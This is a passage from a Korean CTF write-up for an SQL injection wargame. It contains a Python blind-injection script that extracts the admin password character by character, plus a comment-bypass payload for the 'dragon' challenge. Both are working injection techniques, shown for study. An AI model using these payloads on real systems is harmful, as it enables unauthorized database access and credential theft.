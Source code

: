 ```python
        response = requests.get(url,params=params,cookies=cookies)
        if("Hello admin" in response.text):
            print("[+]",payload)
            payload = "' or id='admin' and ord(substr(pw,{},1))={}#".format(idx,search)
            params["pw"] = payload
            response = requests.get(url,params=params,cookies=cookies)
            if("Hello admin" in response.text):
                flag.append(search)
                print("[+++] find the flag",flag)
                break
            end = search
        else:
            print("[-]",payload)
            start = search

for i in flag:
    print(chr(i),end='')
```
![image](https://user-images.githubusercontent.com/33647663/158178908-aa980258-37fe-4fa2-804a-bd029729274e.png)

![image](https://user-images.githubusercontent.com/33647663/158178991-d13120ee-8461-46cd-8abd-b9e2dd175032.png)


# 20번(dragon)
## 문제
![image](https://user-images.githubusercontent.com/33647663/158182653-c9cc2410-35b1-40af-8f91-5691584beead.png)

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

## 풀이
이번 문제는 주석을 우회하여 admin계정의 정보를 가져오는 것입니다.

기본적으로 매번 사용하는 #주석이나, --주석은 한 줄 주석입니다. 이 말은 주석을 하는 부분이 줄바꿈이 되면 그 부분은 주석처리가 되지 않는다는 의미 입니다.

따라서 줄 바꿈(0x0a)을 한 뒤에 쿼리문을 입력해 주면 됩니다.

```
pw=%20%0a or id='admin' order by id%23
```

pw부분에서 줄바꿈 전까지가 주석에 의해서 사라지고 그 뒤에 부분이 실행되어서 admin이 출력됩니다.

![image](https://user-images.githubusercontent.com/33647663/158183666-21e073f4-83e2-47ac-bae3-32021ccaf86d.png)

